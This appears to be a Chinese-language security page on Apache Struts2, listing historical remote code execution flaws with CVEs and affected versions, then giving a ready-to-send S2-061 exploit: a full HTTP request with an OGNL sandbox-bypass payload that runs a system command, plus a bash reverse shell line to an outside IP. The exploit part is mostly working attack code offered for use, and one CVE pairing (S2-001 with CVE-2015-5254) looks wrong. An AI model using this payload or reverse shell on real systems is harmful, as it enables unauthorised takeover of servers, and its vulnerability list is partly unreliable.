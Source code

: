 Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

历史漏洞
截止到20211011
Default
S2-001 远程代码执行漏洞 （CVE-2015-5254）
S2-005 远程代码执行漏洞  CVE-2010-1870 影响版本 2.0.0 - 2.1.8.1
S2-007 远程代码执行漏洞 影响版本: 2.0.0 - 2.2.3
S2-008 远程代码执行漏洞  CVE-2012-0391 影响版本:2.1.0 - 2.3.1
S2-009 远程代码执行漏洞  CVE-2011-3923 影响版本: 2.1.0 - 2.3.1.1
S2-012 远程代码执行漏洞  CVE-2013-1965 影响版本: 2.1.0 - 2.3.13
S2-013/S2-014 远程代码执行漏洞 CVE-2013-1966 影响版本: 2.0.0 - 2.3.14.1
S2-015 远程代码执行漏洞 CVE-2013-2134 CVE-2013-2135 影响版本: 2.0.0 - 2.3.14.2
S2-016 远程代码执行漏洞 CVE-2013-2251 影响版本: 2.0.0 - 2.3.15
S2-032 远程代码执行漏洞（CVE-2016-3081） 影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)
S2-045 远程代码执行漏洞（CVE-2017-5638） 影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
S2-046 Remote Code Execution Vulnerablity（CVE-2017-5638） 影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
S2-048 远程代码执行漏洞 CVE-2017-9791 影响版本: 2.0.0 - 2.3.32
S2-052 远程代码执行漏洞 影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
S2-053 远程代码执行漏洞 影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10
S2-057 远程代码执行漏洞(CVE-2018-11776) Affected Version: <= Struts 2.3.34, Struts 2.5.16
S2-059 远程代码执行漏洞(CVE-2019-0230) 影响版本: Struts 2.0.0 - Struts 2.5.20
S2-061 远程命令执行漏洞（CVE-2020-17530）该漏洞影响版本范围是Struts 2.0.0到Struts 2.5.25。

S2-061 远程代码执行漏洞

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是Struts 2.0.0到Struts 2.5.25。

进入到首页，发现如下数据包，即可执行id命令：
Default
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829
 
------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"
 
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
payload
Default
bash -i >& /dev/tcp/1.1.1.1/4444 0>&1
